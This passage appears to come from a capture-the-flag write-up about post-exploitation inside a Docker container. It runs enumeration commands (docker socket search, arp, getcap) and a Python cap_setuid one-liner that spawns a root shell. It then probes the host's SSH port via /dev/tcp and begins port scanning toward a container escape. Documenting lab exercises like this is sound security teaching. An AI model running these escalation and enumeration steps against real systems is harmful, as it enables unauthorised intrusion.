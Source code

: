 It turns out we're inside of a docker container and you can find that by looking in the / directory for a file called **.dockerenv**.

I check to see if the docker socket is mounted and unfortunately it's not.

`find / -name docker.sock 2>/dev/null`

Running a 'hostname -I' shows our IP address to be **172.17.0.2**.

I check the arp cache to see if I can discover the host systems IP address and find it:

`arp -a`

```
ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1) at 02:42:6f:4e:2d:0f [ether] on eth0
```

So we know the host IP address now.

I check around for SUID files and don't see anything interesting but we do have python3 set with the setuid capability:

`getcap -r / 2>/dev/null`

```
/usr/bin/python3.7 = cap_setuid+ep
```

<br>

## Docker Root

I run the following to get root in the container:

/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'

```
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@4a70924bafa0:/tmp# whoami
root
```

I change over to the root directory and find the **user.txt** flag waiting:

```
root@4a70924bafa0:/root# wc -c user.txt
38 user.txt
```

Now to figure out how to escape from this container.

I check to see if ssh is open on the host system and it is so maybe we can find a way to ssh over.

`echo > /dev/tcp/172.17.0.1/22 && echo "Port is open"`

```
Port is open
```

I transfer **nmap** over to the container to do some further port enumeration against the containers host system which shows me that in addition to ssh and http we have another port open, 5986.
